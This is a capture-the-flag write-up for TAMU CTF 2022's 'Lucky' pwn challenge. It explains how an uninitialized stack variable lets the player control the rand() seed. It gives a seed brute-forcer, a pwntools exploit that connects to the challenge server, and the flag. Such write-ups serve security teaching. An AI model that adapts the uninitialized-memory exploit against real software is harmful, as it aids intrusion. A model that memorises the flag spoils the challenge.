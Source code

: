 ```yaml
---
title: "[Pwn] Lucky [Tamu CTF 2022]"
date: 2022-04-17 16:39:00
---
```


# 0x0 Introduction

Author: nhwn

Feeling lucky? I have just the challenge for you :D

SNI: lucky

files: [lucky](lucky), [lucky.c](lucky.c)

# 0x1 Mitigation

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

# 0x2 Vulnerability

The basic idea is set a seed for `rand()` so that 3 key is same as the requirements.

Because both function are called in the main. The function `seed()` and function `welcome` share the same stack address. 

On the other hand, `seed()` just return the value on the stack. In this case, the stack will looks like this.

```
stack for welcome         stack for seed
-------                   -----------------  
buf[4]
buf[8]                    "GLHF :D"
buf[4]                    lol
main stack                main stack
-------                   ---------------
```

Therefore, we can control the value of lol (which is the seed) by write last 4 bytes in function `welcome`/

now, we just need to find the correct seed by using the script below

```
#include <stdio.h>
#include <stdlib.h>

int main()
{
    for (int i = 0; i <= 2147483647; i++)
    {
        srand(i);
        int key0 = rand() == 306291429;
        int key1 = rand() == 442612432;
        int key2 = rand() == 110107425;
        if (key0 && key1 && key2)
        {
            printf("%d",i);
            break;
        }
    }
}
```


# 0x3 Exploit

```
from pwn import *

context.binary = ELF("lucky")
io = remote("tamuctf.com", 443, ssl=True, sni="lucky")
io.sendlineafter('name: ',flat({
    0xc:5649426
}))

io.interactive()
```

# 0x4 Flag

gigem{un1n1t14l1z3d_m3m0ry_15_r4nd0m_r1ght}
